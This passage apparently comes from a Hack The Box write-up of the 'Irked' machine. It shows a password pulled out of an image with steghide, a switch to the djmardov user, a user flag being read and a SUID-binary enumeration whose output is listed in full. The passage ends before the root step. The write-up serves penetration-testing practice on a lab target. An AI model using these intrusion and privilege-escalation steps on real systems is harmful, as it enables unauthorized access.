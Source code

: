 ```
kali@kali:~/htb/machines/irked/privesc/steg$ steghide --extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss
wrote extracted data to "pass.txt".
kali@kali:~/htb/machines/irked/privesc/steg$ cat pass.txt
Kab6h+m+bbp2J:HG
```

I was then able to use that password to become the `djmardov` user:

```
ircd@irked:/home/djmardov$ su djmardov
Password:
djmardov@irked:~$ id
uid=1000(djmardov) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
djmardov@irked:~$ cat user.txt
```

And grab thier flag:

```
djmardov@irked:~$ cat Documents/user.txt
4a66a78b12dc0e661a59d3f5c0267a8e
```

## Privilege Escalation - Root Own (Abusing Arbitrary Commands Invoked by SUID Binaries)

From the previos `id` command above, I noticed the `djmardov` user was part of the `video` group which meant that this user was allowed perform video related operations.
Enumerating the system for SUID binaries reveled the following:

```
djmardov@irked:/dev/shm$ find / -perm -4000 -ls 2>/dev/null
404330  356 -rwsr-xr--   1 root     messagebus   362672 Nov 21  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
394848   12 -rwsr-xr-x   1 root     root         9468 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
412270   16 -rwsr-xr-x   1 root     root        13816 Sep  8  2016 /usr/lib/policykit-1/polkit-agent-helper-1
410047  552 -rwsr-xr-x   1 root     root       562536 Nov 19  2017 /usr/lib/openssh/ssh-keysign
408970   16 -rwsr-xr-x   1 root     root        13564 Oct 14  2014 /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
409724 1060 -rwsr-xr-x   1 root     root      1085300 Feb 10  2018 /usr/sbin/exim4
424276  332 -rwsr-xr--   1 root     dip        338948 Apr 14  2015 /usr/sbin/pppd
394369   44 -rwsr-xr-x   1 root     root        43576 May 17  2017 /usr/bin/chsh
410065   96 -rwsr-sr-x   1 root     mail        96192 Nov 18  2017 /usr/bin/procmail
394371   80 -rwsr-xr-x   1 root     root        78072 May 17  2017 /usr/bin/gpasswd
393000   40 -rwsr-xr-x   1 root     root        38740 May 17  2017 /usr/bin/newgrp
409644   52 -rwsr-sr-x   1 daemon   daemon      50644 Sep 30  2014 /usr/bin/at
412272   20 -rwsr-xr-x   1 root     root        18072 Sep  8  2016 /usr/bin/pkexec
424835   12 -rwsr-sr-x   1 root     root         9468 Apr  1  2014 /usr/bin/X
394373   52 -rwsr-xr-x   1 root     root        53112 May 17  2017 /usr/bin/passwd
394368   52 -rwsr-xr-x   1 root     root        52344 May 17  2017 /usr/bin/chfn
1062682    8 -rwsr-xr-x   1 root     root         7328 May 16  2018 /usr/bin/viewuser
914060   96 -rwsr-xr-x   1 root     root        96760 Aug 13  2014 /sbin/mount.nfs
783487   40 -rwsr-xr-x   1 root     root        38868 May 17  2017 /bin/su
783401   36 -rwsr-xr-x   1 root     root        34684 Mar 29  2015 /bin/mount
792821   36 -rwsr-xr-x   1 root     root        34208 Jan 21  2016 /bin/fusermount
792836  160 -rwsr-xr-x   1 root     root       161584 Jan 28  2017 /bin/ntfs-3g
783402   28 -rwsr-xr-x   1 root     root        26344 Mar 29  2015 /bin/umount
```
